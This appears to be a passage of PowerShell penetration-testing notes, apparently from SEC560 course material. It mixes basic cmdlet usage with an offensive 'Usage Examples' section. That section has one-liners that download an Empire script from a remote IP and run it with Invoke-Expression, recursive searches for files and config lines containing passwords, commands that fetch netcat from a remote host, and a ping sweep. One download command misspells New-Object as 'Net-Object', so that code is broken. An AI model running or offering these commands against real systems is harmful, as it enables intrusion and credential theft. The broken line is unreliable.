 ```shell-session
get-service | gm							// services have “status”
get-service | ? {$_.status -eq “running”}
```

- Note that for string comparisons, the -eq and -ne are case-insensitive.  
- Use -ceq and -cne for case-sensitive comparisons.

### Writing output

```shell-session
“hello”			// Display text.
3+6				// Do math.
1..10			// Make a range of numbers.
(1..10).count	// Count the number of objects in output.
(ls).count
```

## Usage Examples

### Execute remote code

IEX (Invoke Expression) runs commands or expressions on the local computer.

	powershell “IEX(New-Object Net.WebClient).downloadString('http://10.10.17.214/empire.ps1')”

Another method:

	(Invoke-WebRequest http://10.10.17.214/empire.ps1).Content | Invoke-Expression

### Find interesting files

#### Search directory recursively for .txt files with “password” in the file name. Display their path and contents.

	ls -r C:\wordpress *password*.txt | % {echo $_fullname; gc $_.fullname}

#### Search directory recursively for all files containing “password”. Print the file path and matching line.

	sls C:\wordpress\*config* -pattern password 2>$null

### Move a file using only PowerShell
#### Windows 8 (PowerShell v3)

	Invoke-WebRequest http://10.10.10.100/SEC560/netcat.zip -OutFile netcat.zip		// Alias wget

#### Windows 7 (PowerShell v2)

	(Net-Object System.Net.Webclient).DownloadFile("http://10.10.10.100/SEC560/netcat.zip","C:\netcat.zip")

### Ping sweep all IPv4 addresses and find the string ttl

	1..255 | % {ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

